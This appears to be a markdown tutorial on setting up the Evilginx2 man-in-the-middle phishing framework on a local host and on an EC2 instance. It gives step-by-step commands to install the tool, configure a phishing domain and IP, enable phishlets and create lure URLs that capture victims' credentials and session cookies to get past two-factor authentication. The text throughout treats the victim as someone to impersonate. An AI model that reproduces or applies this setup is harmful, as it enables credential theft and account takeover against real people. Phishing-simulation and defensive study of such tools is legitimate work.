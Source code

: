 

```https://github.com/kgretzky/evilginx2```

```NOTE: You can run EVILGINX2 in a tmux session so that when you quit your ssh connection, the tool keeps on running.```

### Introduction:

Evilginx2 is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection. 
What is means is Evilginx2 is siting in the communication between our victim and the actual legitimate login page capturing all traffic passed through. This means we can also capture the session cookies and inout them into our own browser allowing us to successfully authenticate ourselves as the victim, when it is time to login with the credentials we have aquired.


### Configuring EvilGinx2 on Host:

```
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2                                       
make           
sudo cp bin/evilginx /usr/bin
sudo cp -r phishlets/ /usr/share/evilginx/
sudo cp -r templates /usr/share/evilginx/
sudo evilginx
```

Run evilginx2 and if the phishlets have been loaded successfully you should see the tool run. 

Now you need to edit the config and ``` add your domain and IP and the redirect URL. ```

[ Any scanners scanning your domain without the ```lure parameter``` will automatically get redirected to the "redirect_url" you set up here ]

We also need to setup a TLS Certificate for our domain. the Evilginx tool can handle all that for us. 

ENTER:

``` 
: phishlets hostname therecap
therecap.tk
: phishlets enable therecap
```

***

### Configuring EvilGinx2 on Cloud:

Install and config Evilginx2 inside the instance you have created (Open a new tab, ssh back into the EC2, and complete the steps to install Evilginx)

* Since go is already installed we can eneter the following commands to set up Evilginx2:
            
```
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```
            
* If everything was done right you should be able to go ahead and run the program:
            
```sudo ./bin/evilginx -p ./phishlets/```
            
NOTE: Ignore warning - ```[!!!] Failed to start nameserver on port 53```



* Now that evilginx2 is istalled and running it is time to finish setting up the program to exucute the way we want it to (Complete the steps to properly configure evilginx2:):

* Set up the domain you are using (Enter the domain that you are using): 
            
```config domain raymondspizzeria.cf```
            
* Tell evilginx what IP it should be running on (Enter the ip from your ec2 instance):
            
```config ip 44.201.169.181```


***

### Creating Evilginx2 Lure:

The next task is to created a ```lure```, which would be the phishing URL to send the victims to.

```
: lures create therecap
[04:31:37] [inf] created lure with ID:
1

: lures get-url 1
https://www.therecap.tk/BMvzCci()y     (WHAT IS THIS URL?)
```

We also need to add the URL the victim will be redirected to AFTER logging in. This is different from the ```config redirect_url``` as that one is for the scanners and unintended users and this one is for the victims post-login.

```
: lures edit 1 redirect_url
https://www.therecap.org/
[04:46:06] [inf] redirect_url =
'https://www.therecap.org/'
```

Once that is in you can navigate to the lure URL to make sure its works properly.



***


